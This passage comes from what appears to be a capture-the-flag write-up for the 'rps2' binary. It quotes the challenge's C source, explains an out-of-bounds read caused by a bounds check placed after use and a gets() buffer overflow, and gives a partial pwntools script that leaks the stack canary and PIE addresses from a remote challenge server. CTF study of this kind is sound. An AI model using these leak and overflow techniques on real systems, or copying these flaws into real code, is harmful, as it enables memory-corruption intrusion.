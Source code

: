 ```c 
    memcpy(choices[13].choice, "Scissors", 9);
    memcpy(choices[14].choice, "Fire", 9);
```

So, each item in the array `choices` is guaranteed to be 9 bytes long. 

(Why 9? It's the easiest to read the canary, since the canary is 8 bytes long. Also, with this magic number the canary can be leaked in 1 read, which is so nice of me)

In the tutorial, you might notice this bit:

```c 
    gets(inp);
    user = atoi(inp) - 1;
    printf("You chose %s\n", choices[user].choice);
    
    if ((user < 0) || (user > 14)) {
      puts("What are you doing? let's try this again.");
      goto restart;
    } 
```

The check for `user` being in-bounds is after we read our value. Hence, we can achieve array OOB and arbitrary read. This is the first vuln.

The second vuln should be pretty obvious, it's a basic buffer overflow. However, the catch is that you need to win all 5 games as well as the tutorial to get to `return 0`, which only then allows us to overwrite RIP. This is the fun part :)

---

After this, exploitation is quite straightforward. First, we need to fuzz our arbitrary read for canary and PIE leaks.
Here's the script I used:

```py 
import time
from pwn import *

elf = context.binary = ELF('./rps2')
rop = ROP(elf)
p = remote('alpha.8059blank.ml', 3000)

moves = [ "Rock", "Gun", "Lightnig", "Devil", "Dragon", "Water", "Air", "Paper", "Sponge", "Wolf", "Tree", "Human",\
"Snake", "Scissors", "Fire"]

def i_win():
    p.recvuntil(b'I choose ')
    bot = moves.index(p.recvline().strip().decode())
    me = str((bot + 2) % 15 + 1).encode()
    return me

p.clean()
p.sendline("-183")
p.recvuntil(b'You chose ')
print(hex(u64(p.recvline().strip().ljust(8, b'\x00'))))

# find canary
# canary should be +ve offset since it protects the stack from overflow.
# canary will look like 0x9184c574d15100
for i in range(0, 67):
    try:
        time.sleep(0.1)
        p.sendline(str(i))
        p.recvuntil(b'You chose ')
        print(hex(u64(p.recvline().strip()[:-1].rjust(8, b'\x00'))), i)
```
